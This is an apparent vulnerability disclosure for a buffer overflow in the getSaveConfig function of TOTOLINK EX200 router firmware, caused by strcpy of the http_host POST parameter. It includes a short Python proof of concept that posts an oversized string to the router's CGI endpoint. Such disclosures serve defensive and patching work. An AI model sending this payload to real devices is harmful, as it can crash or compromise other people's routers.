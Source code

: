 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/data/upload/20210428/7979e841521515eb83b45aacf5b67f9a.zip

## Affected version

EX200 V4.0.3c.7646_B20201211

## Vulnerability details

In the EX200 V4.0.3c.7646_B20201211 firmware has a buffer overflow vulnerability in the `getSaveConfig` function. The `v6` variable receives the `http_host` parameter from a POST request. However, since the user can control the input of `http_host`, the statement `strcpy((char *)v13, v6);` can cause a buffer overflow injection vulnerability.

![image-20240719230945874](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240719230945874.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi?action=save&setting"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"http_host":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240720233918538](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720233918538.png)
